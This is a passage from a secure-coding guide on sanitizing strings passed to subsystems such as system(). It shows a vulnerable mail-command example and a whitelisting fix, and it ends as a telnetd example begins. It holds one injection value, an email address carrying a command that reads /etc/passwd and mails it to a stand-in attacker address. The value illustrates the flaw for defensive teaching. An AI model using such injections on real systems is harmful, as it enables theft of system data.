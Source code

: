 String data passed to complex subsystems may contain special characters that can trigger commands or actions, resulting in a software [vulnerability](BB.-Definitions_87152273.html#BB.Definitions-vulnerability). As a result, it is necessary to [sanitize](BB.-Definitions_87152273.html#BB.Definitions-sanitize) all string data passed to complex subsystems so that the resulting string is innocuous in the context in which it will be interpreted.
These are some examples of complex subsystems:
-   Command processor via a call to `system()` or similar function (also addressed in [ENV03-C. Sanitize the environment when invoking external programs](ENV03-C_%20Sanitize%20the%20environment%20when%20invoking%20external%20programs))
-   External programs
-   Relational databases
-   Third-party commercial off-the-shelf components (for example, an enterprise resource planning subsystem)
## Noncompliant Code Example
Data sanitization requires an understanding of the data being passed and the capabilities of the subsystem. John Viega and Matt Messier provide an example of an application that inputs an email address to a buffer and then uses this string as an argument in a call to `system()` \[[Viega 2003](AA.-Bibliography_87152170.html#AA.Bibliography-Viega03)\]:
``` c
sprintf(buffer, "/bin/mail %s < /tmp/email", addr);
system(buffer);
```
The risk, of course, is that the user enters the following string as an email address:
``` java
bogus@addr.com; cat /etc/passwd  | mail some@badguy.net
```
For more information on the `system()` call, see [ENV03-C. Sanitize the environment when invoking external programs](ENV03-C_%20Sanitize%20the%20environment%20when%20invoking%20external%20programs) and [ENV33-C. Do not call system()](ENV33-C_%20Do%20not%20call%20system__).
## Compliant Solution
It is necessary to ensure that all valid data is accepted, while potentially dangerous data is rejected or [sanitized](BB.-Definitions_87152273.html#BB.Definitions-sanitize). Doing so can be difficult when valid characters or sequences of characters also have special meaning to the subsystem and may involve [validating](BB.-Definitions_87152273.html#BB.Definitions-validation) the data against a grammar. In cases where there is no overlap, whitelisting can be used to eliminate dangerous characters from the data.
The whitelisting approach to data sanitization is to define a list of acceptable characters and remove any character that is not acceptable. The list of valid input values is typically a predictable, well-defined set of manageable size. This compliant solution, based on the `tcp_wrappers` package written by Wietse Venema, shows the whitelisting approach:
``` c
static char ok_chars[] = "abcdefghijklmnopqrstuvwxyz"
                         "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
                         "1234567890_-.@";
char user_data[] = "Bad char 1:} Bad char 2:{";
char *cp = user_data; /* Cursor into string */
const char *end = user_data + strlen( user_data);
for (cp += strspn(cp, ok_chars); cp != end; cp += strspn(cp, ok_chars)) {
  *cp = '_';
}
```
The benefit of whitelisting is that a programmer can be certain that a string contains only characters that are considered safe by the programmer. Whitelisting is recommended over blacklisting, which traps all unacceptable characters, because the programmer needs only to ensure that acceptable characters are identified. As a result, the programmer can be less concerned about which characters an attacker may try in an attempt to bypass security checks.
## Noncompliant Code Example
This noncompliant code example is taken from \[[VU#881872](AA.-Bibliography_87152170.html#AA.Bibliography-VU881872)\], a vulnerability in the Sun Solaris TELNET daemon (`in.telnetd`) that allows a remote attacker to log on to the system with elevated privileges.